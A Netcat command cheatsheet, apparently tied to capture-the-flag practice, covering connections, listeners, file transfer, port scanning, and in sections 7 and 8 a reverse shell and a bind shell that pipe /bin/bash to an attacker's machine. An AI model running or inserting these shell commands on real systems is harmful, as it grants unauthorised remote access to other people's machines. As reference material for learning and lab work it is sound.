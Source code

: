 **Netcat (nc) Cheatsheet** to help you with common use cases:  

## **Netcat (nc) Cheatsheet**  

### **1. Basic Connection**  
```bash
nc <host> <port>
```
- Example:  
  ```bash
  nc jupiter.challenges.picoctf.org 64287
  ```
- Connects to a remote server on the specified port.

### **2. Listen for Connections**  
```bash
nc -lvp <port>
```
- Example:  
  ```bash
  nc -lvp 4444
  ```
- Listens on port `4444` for incoming connections.  
  - `-l` → Listen mode  
  - `-v` → Verbose (detailed output)  
  - `-p` → Specify port  

### **3. Send a File**  
```bash
nc <host> <port> < file.txt
```
- Example:  
  ```bash
  nc 192.168.1.10 4444 < secret.txt
  ```
- Sends `secret.txt` to a remote machine listening on port `4444`.

### **4. Receive a File**  
```bash
nc -lvp <port> > file.txt
```
- Example:  
  ```bash
  nc -lvp 4444 > received.txt
  ```
- Receives a file and saves it as `received.txt`.

### **5. Create a Simple Chat**  
#### **On Machine 1 (Listener)**
```bash
nc -lvp 1234
```
#### **On Machine 2 (Sender)**
```bash
nc <Machine1_IP> 1234
```
- Now, anything typed on either machine is sent to the other.

### **6. Scan for Open Ports**  
```bash
nc -zv <host> <port_range>
```
- Example:  
  ```bash
  nc -zv 192.168.1.1 1-1000
  ```
- Checks which ports are open on the target.

### **7. Establish a Reverse Shell**  
#### **On Attacker's Machine (Listener)**
```bash
nc -lvp 4444
```
#### **On Victim’s Machine (Sender)**
```bash
nc <attacker_IP> 4444 -e /bin/bash
```
- Grants shell access to the attacker.

### **8. Establish a Bind Shell**  
#### **On Victim’s Machine (Listener)**
```bash
nc -lvp 4444 -e /bin/bash
```
#### **On Attacker’s Machine (Connect to Shell)**
```bash
nc <victim_IP> 4444
```

### **9. Transfer Files Using Netcat & Tar**  
#### **On Receiving Machine**
```bash
nc -lvp 4444 | tar -xvf -
```
#### **On Sending Machine**
```bash
tar -cvf - /path/to/files | nc <receiver_IP> 4444
```
- Sends and extracts files over Netcat.
